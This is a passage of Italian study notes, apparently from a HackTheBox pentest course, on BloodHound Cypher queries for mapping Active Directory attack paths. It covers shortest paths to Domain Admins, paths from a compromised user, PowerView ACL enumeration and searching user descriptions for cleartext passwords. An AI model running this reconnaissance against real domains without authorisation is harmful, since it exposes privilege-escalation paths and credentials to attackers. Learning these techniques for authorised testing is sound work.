```

- La parte nodes(p)[1].name si riferisce alla proprietà `name` del primo nodo nel percorso `p`, ottenuto dalla variabile `nodes(p)`.

- La parola chiave `CONTAINS` restituisce solo il percorso in cui il nome del primo gruppo contiene la sottostringa `ITSECURITY`.


#### Si può usare anche =~
Si può usare `=~` per matchare una espressione regolare:
```
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)itsecurity.*'
RETURN p
```

- `(?i)` = case insensitive
- `.*` = qualsiasi carattere





## Analisi di Query di BloodHound
### Paths più corti verso domain admins
```
MATCH p=shortestPath((n)-[*1..]->(m:Group {name:"DOMAIN ADMINS@INLANEFREIGHT.HTB"})) 
WHERE NOT n=m 
RETURN p
```
- `shortestPath`: funzione di Cypher usata per trovare il percorso più breve tra due nodi in un grafo. Usata nella clausola `MATCH` per trovare il percorso più breve tra un nodo di partenza `n` e un nodo di arrivo `m` che soddisfano determinate condizioni.
- La condizione `WHERE NOT n = m`: per escludere la possibilità che il nodo di partenza e quello di arrivo siano lo stesso nodo. Un nodo non può avere un percorso verso sé stesso!

## ShortestPath da qualsiasi nodo

```
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)peter.*' AND NOT c=n 
RETURN p
```
- In questo caso lo cerca dal nodo che contiene "peter" ad ogni nodo 
- Sostituisci "peter" con qualsiasi utente compromesso
- Questa è la query più potente: trova qualsiasi path da un nodo verso qualsiasi altro nodo. Usa allshortestpaths invece di shortestPath per vedere tutti i path possibili.

### ACL con PowerView
Se questo script non restituisce nulla, si puà usare PowerView o SharpView per vedere i privilegi dell'utente verso un altro oggetto in AD.
```
PS C:\htb> Import-Module c:\tools\PowerView.ps1
PS C:\htb> Get-DomainObjectAcl -Identity peter -domain INLANEFREIGHT.HTB -ResolveGUIDs
...SNIP...
```


## Query Custom
In BloodHound si possono anche creare delle query diverse da quelle che già ci sono e si possono anche importare.
- Alcune custom query però si possono eseguire solo nella console di Neo4j (e non da BloodHound)

### Cheat sheet utili
- https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12
- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/

### Diritti che Domain Users non dovrebbe avere sui computer
```
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer)
WHERE g.name STARTS WITH "DOMAIN USERS"
RETURN p
```

### Utenti con description non vuota (possibili password in chiaro!)
```
-- Solo su Neo4j console (localhost:7474)
MATCH (u:User)
WHERE u.description IS NOT NULL
RETURN u.name, u.description
```
- Si può usare questa query per trovare tutti i local administrators and gli host in cui sono admin
- Questa query può aiutare a mostrare a un cliente la portata dei privilegi di amministratore locale nella sua rete.

### Tutti i local admin e le loro macchine
```
-- Solo su Neo4j console
MATCH (c:Computer)
OPTIONAL MATCH (u1:User)-[:AdminTo]->(c)
OPTIONAL MATCH (u2:User)-[:MemberOf*1..]->(:Group)-[:AdminTo]->(c)
WITH COLLECT(u1) + COLLECT(u2) AS TempVar,c
UNWIND TempVar AS Admins
RETURN c.name AS COMPUTER, COUNT(DISTINCT(Admins)) AS ADMIN_COUNT, COLLECT(DISTINCT(Admins.name)) AS USERS
ORDER BY ADMIN_COUNT DESC
```

### Trova un edge specifico
```
-- Sostituisci WriteSPN con qualsiasi edge
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

### Salvare Custom Queries
Le query custom si salvano in:
- Windows: AppData\Roaming\bloodhound\customqueries.json
- Linux: /root/.config/bloodhound/customqueries.json

Possiamo aggiungere a questo file man mano che creiamo e testiamo le query.
Cliccando sull’icona della matita accanto a `Custom Queries` nella scheda `Queries` di BloodHound, si aprirà questo file.
- Man mano che aggiungiamo query personalizzate, l’elenco verrà popolato automaticamente.

> Perà se BloodHound è aperto quando aggiorniamo il file `customqueries.json`, è necessario cliccare sull’icona di aggiornamento per ricaricarne il contenuto.

#### Esempio query statica
```
{
    "queries": [
        {
            "name": "From Peter to Anything",
            "category": "Shortest Paths",
            "queryList": [
                {
                    "final": true,
                    "query": "MATCH p = allshortestPaths((n)-[*1..]->(c)) WHERE n.name =~ '(?i)peter.*' AND NOT c=n RETURN p",
                    "allowCollapse": true
                }
            ]
        }
    ]
}
```

#### Esempio query interattiva (con selezione da nodo owned)
```
{
    "queries": [
        {
            "name": "Search From Owned to Anything",
            "category": "Shortest Paths",
            "queryList": [
                {
                    "final": false,
                    "title": "Select the node to search...",
                    "query": "MATCH (n {owned:true}) RETURN n.name"
                },
                {
                    "final": true,
                    "query": "MATCH p = allshortestPaths((n)-[*1..]->(c)) WHERE n.name = $result AND NOT c=n RETURN p",
                    "allowCollapse": true
                }
            ]
        }
    ]
}
```

Questa query in due step prima mostra tutti i nodi marcati come owned, ti fa scegliere, poi cerca tutti i path da quel nodo. Molto utile durante un pentest reale!
